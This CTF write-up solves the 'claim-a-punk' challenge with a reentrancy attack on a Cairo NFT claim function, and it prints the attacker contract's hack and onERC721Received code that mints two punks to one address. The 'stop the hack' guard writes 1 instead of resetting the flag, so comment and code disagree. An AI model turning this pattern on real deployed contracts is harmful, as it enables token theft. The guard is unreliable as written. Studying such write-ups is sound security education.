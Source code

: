# `claim-a-punk`

## Number of points

436 (tied to the fourth easiest challenge of the CTF)

## Challenge victory condition

To solve this challenge, we need to figure out how to mint two punks at the same address. One way to solve this problem is to implement a reentrancy attack because the NFT contract called by the `claim` function is not protected against reentrancy.

## Challenge solution

To capture this flag, we developed a very simple smart-contract that will automatically be called by the NFT smart-contract when the `claim` function is called by the player. This smart-contract will first mint a punk for itself when the player calls it, then call the `claim` function again, mint a punk for the player, and finally transfer the first NFT minted to the player. In this way, once the transaction is accepted, the player will have 2 punks.

The smart-contract in charge of the [reentrancy attack](./public/contracts/attacker.cairo) must be deployed (using the [`reentrancy-contract`](./public/deploy/reentrancy-contract.js) script) before calling the [`solve`](./solve.js) script.

Here's the method the player will have to call to initiate the attack:

```cairo
func hack{syscall_ptr: felt*, pedersen_ptr: HashBuiltin*, range_check_ptr}(addressContract: felt, addressUser: felt, addressPunk: felt) {
    alloc_locals;

    // enable hack
    _continue.write(1);

    let (currentContractAddress) = get_contract_address();

    // write the addresses of the user and the contract inside the storage (when TSTORE?)
    user.write(addressUser);
    target.write(addressContract);
    punk.write(addressPunk);

    // call claim for the first time -- this call will mint the first punk for this contract
    IClaimAPunk.claim(contract_address=addressContract, to=currentContractAddress);

    return();
}
```

Here's the method automatically called by the NFT smart-contract. The reentrancy attack happens here:

```cairo
func onERC721Received{syscall_ptr: felt*, pedersen_ptr: HashBuiltin*, range_check_ptr}(
        operator: felt, from_: felt, tokenId: Uint256, data_len: felt, data: felt*
    ) -> (selector: felt) {
    alloc_locals;
    let (isContinue) = _continue.read();

    if (isContinue == 0) {
        return (selector=IERC721_RECEIVER_ID);
    }

    // stop the hack -- safeguard against reentrancy loop
    _continue.write(1);

    let (_user) = user.read();
    let (isContinue) = _continue.read();
    let (_target) = target.read();
    let (currentContractAddress) = get_contract_address();

    // claim the token a second time -- this call mint a punk to the user
    IClaimAPunk.claim(contract_address=_target,to=_user);

    let (addressPunk) = punk.read();

    // transfer the initial token minted for this contract to the user
    I721.transferFrom(contract_address=addressPunk,from_=currentContractAddress,to=_user,tokenId=tokenId);

    return (selector=IERC721_RECEIVER_ID);
}
```

Both contracts (the one we developed to do the attack, and the one we want to attack) are in the contracts directory. Relevant ABIs are in the abis directory.
